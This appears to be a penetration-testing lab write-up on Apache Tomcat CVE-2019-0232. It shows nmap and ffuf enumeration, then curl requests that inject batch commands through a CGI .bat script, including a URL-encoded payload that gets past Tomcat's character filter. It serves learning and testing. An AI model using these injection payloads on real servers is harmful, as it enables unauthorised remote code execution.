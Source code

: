 ### Footprinting + Enumeration
##### Nmap output
```bash
8080/tcp  open  http-proxy
|_http-title: Apache Tomcat/9.0.17
|_http-favicon: Apache Tomcat
```
##### Fuzzing for CGI Scripts
```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.201.89:8080/

ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.201.89:8080/cgi/FUZZ.cmd

ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.201.89:8080/cgi/FUZZ.bat
```

```bash
curl http://10.129.204.227:8080/cgi/welcome.bat
```

### Exploitation
![[Pasted image 20250213065042.png]]
`CVE-2019-0232` is a critical security issue that could result in remote code execution. This vulnerability affects Windows systems that have the `enableCmdLineArguments` feature enabled. Versions `9.0.0.M1` to `9.0.17`, `8.5.0` to `8.5.39`, and `7.0.0` to `7.0.93` of Tomcat are affected.

We can exploit `CVE-2019-0232` by appending our own commands through the use of the batch command separator `&`.

View enviroment variables
```bash
curl http://10.129.204.227:8080/cgi/welcome.bat?&set
```
From the list, we can see that the `PATH` variable has been unset, so we will need to hardcode paths in requests:
```bash
curl http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```
The attempt was unsuccessful, and Tomcat responded with an error message indicating that an invalid character had been encountered. Apache Tomcat introduced a patch that utilises a regular expression to prevent the use of special characters. However, the filter can be bypassed by URL-encoding the payload.
```bash
curl http://10.129.205.30:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```